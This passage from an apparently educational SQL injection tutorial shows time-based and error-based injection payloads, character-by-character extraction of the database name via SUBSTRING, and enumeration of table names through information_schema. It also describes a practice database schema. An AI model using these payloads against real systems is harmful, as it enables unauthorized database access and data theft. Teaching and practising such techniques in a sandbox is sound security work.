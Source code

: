     - Introduce delays (e.g., `SLEEP(10)`) to identify if the database executes the query.
    - Example:
        
        ```sql
        SELECT IF(1=1, SLEEP(5), 'a');
        ```
        
3. **Use Error-Based Payloads**:
    
    - Trigger errors to reveal information.
    - Example:
        
        ```sql
        SELECT CASE WHEN (SUBSTRING((SELECT database()),1,1)='a') THEN CAST('' AS INT) ELSE '' END;
        ```
        
4. **Iterate to Extract Data**:
    
    - Adjust payloads to extract data character-by-character:
        - **Database Name:** `SUBSTRING((SELECT database()), 1, 1)`
        - **Table Names:** `SELECT table_name FROM information_schema.tables`.

---

## 🔍 **Understanding SQLi Payloads**

### **Link to SQL Playground**:

[https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5](https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5)

The following examples use the database schema provided in the link above, which consists of a `users` table (storing usernames, passwords, and roles) and a `products` table (storing product details).

---

### **Schema Overview**

**Users Table:**

```sql
CREATE TABLE `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(50) NOT NULL,
  `role` varchar(20) NOT NULL,
  PRIMARY KEY (`id`)
);
```

Sample data:

|id|username|password|role|
|---|---|---|---|
|1|Jessamy|password123|admin|
|2|Jeremy|qwerty|user|

---